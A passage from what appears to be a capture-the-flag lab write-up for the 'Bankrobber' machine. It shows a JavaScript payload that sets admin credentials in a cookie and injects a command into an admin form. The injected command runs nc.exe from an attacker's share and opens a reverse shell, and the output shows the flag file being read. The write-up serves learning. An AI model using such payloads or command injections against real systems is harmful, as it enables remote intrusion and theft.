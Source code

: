 ```javascript
function pwn() {
    document.cookie = "id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D";
    var uri ="/admin/backdoorchecker.php";
    xhr = new XMLHttpRequest();
    xhr.open("POST", uri, true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send("cmd=dir|\\\\10.10.14.19\\test\\nc.exe 10.10.14.19 7000 -e cmd.exe");
}
pwn();
```

![](/assets/images/htb-writeup-bankrobber/shell1.png)

```
C:\xampp\htdocs\admin>type c:\users\cortin\desktop\user.txt
f6353466...
```

## Privesc using bank transfer application

There's something odd running on port 910...

![](/assets/images/htb-writeup-bankrobber/root1.png)
